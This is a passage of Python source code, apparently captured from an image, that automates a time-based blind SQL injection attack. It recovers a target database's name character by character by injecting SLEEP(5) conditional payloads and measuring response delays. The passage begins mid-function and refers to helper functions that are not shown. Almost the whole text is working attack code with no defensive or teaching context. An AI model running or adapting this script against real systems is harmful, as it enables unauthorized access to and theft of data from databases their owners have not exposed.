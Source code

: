 ```python
            return length
    return -1  # Return -1 if the length is not found

# Determine each character of the database name
def find_database_name(length):
    database_name = ""
    for i in range(1, length + 1):
        for ascii_code in range(32, 127):  # Assuming the database name contains only printable characters
            sql_payload = f"SELECT (CASE WHEN (ASCII(SUBSTRING(database(),{i},1))={ascii_code}) THEN SLEEP(5) ELSE 0 END)"
            elapsed_time = send_delayed_injection(sql_payload)
            if elapsed_time >= 5:  # If the response time is greater than or equal to 5 seconds, the condition is true
                database_name += chr(ascii_code)
                break
    return database_name

# Main execution flow
database_name_length = find_database_name_length()
if database_name_length != -1:
    database_name = find_database_name(database_name_length)
    print(f"Database Name: {database_name}")
else:
    print("Unable to determine the database name length")
```
